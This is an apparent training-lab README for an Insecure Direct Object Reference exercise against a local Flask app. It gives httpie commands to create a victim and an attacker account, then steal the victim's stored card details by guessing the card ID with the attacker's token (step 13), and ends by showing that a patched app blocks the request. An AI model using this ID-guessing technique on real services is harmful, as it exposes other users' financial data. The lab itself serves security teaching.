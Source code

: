 
PreRequisiste
*************


sudo pip3 install --upgrade httpie



Insecure Direct Object Reference - AJAX (EoP)
Instructions

Step 1: Open terminal and change to directory
cd /root/primary-key-idor

Step 2: Set the JWT pass phrase 

Universally unique identifiers (UUIDs) are 128-bit numbers that are accepted as being unique on the local system they are created on.

Generating a UUID
*****************
The uuidgen command is often already installed on Unix-like operating systems like Linux and macOS. 
If it’s not, you can install it through your package manager. On Ubuntu and Debian systems, install the uuid-runtime package.

export JWT_PASS=$(uuidgen)  

Step 3: Run the app
pip3 install -r requirements.txt

Error: Error while downloading the requirements using pip install (setup command: use_2to3 is invalid.)
Command "python setup.py egg_info" failed with error code 1 in /tmp/pip-build-BqMhb7/matplotlib/ #418

Soln : pip3 install --upgrade pip setuptools==57.5.0

python3 app.py

Step 4: Open another terminal, and create the user
http POST http://localhost:5000/create-user email=avpp@corp.com password=Hello1234

Issue : bash: http: command not found
Soln : 
export PATH=$PATH:/bin:/usr/local/bin
vi .bashrc
export PATH=$PATH:/bin:/usr/local/bin


Step 5: Now fetch the JWT token
http POST http://localhost:5000/login email=avpp@corp.com password=Hello1234
You should get the JWT token in the response

Step 6: Set the token as environment variable for accessing the other endpoints
export UTOKEN=<your-jwt-token-value>

Step 7: Now create some card entries
http POST http://localhost:5000/create-card Authorization:$UTOKEN card_num=411111111111 cvv:=211 exp:=1224

Step 8: Fetch the card details for a particular user
http GET http://localhost:5000/get-cards/avpp@corp.com Authorization:$UTOKEN

Step 9: Now create another malicious account
http POST http://localhost:5000/create-user email=attacker@corp.com password=Hello123

Step 10: Fetch the malicious user's token
http POST http://localhost:5000/login email=attacker@corp.com password=Hello123

Step 11: Set the malicious users token as environment variable
export ATOKEN=<malicious-user-jwt-token-value>

Step 12: Fetch the card details for the malicious user account (u will see the empty response)
http GET http://localhost:5000/get-cards/attacker@corp.com Authorization:$ATOKEN

Step 13: Now steal the other user's card number by guessing the user id
http GET http://localhost:5000/get-card/1 Authorization:$ATOKEN

Step 14: Go to terminal 1 and stop the app and run the secure app
python3 secure_app.py

Step 15: Go to terminal 2 and repeat step 13, you should not get the card numbers

Step 16: Now fetch the card as genuine user

http GET http://localhost:5000/get-card/1 Authorization:$UTOKEN
You should be able to fetch it
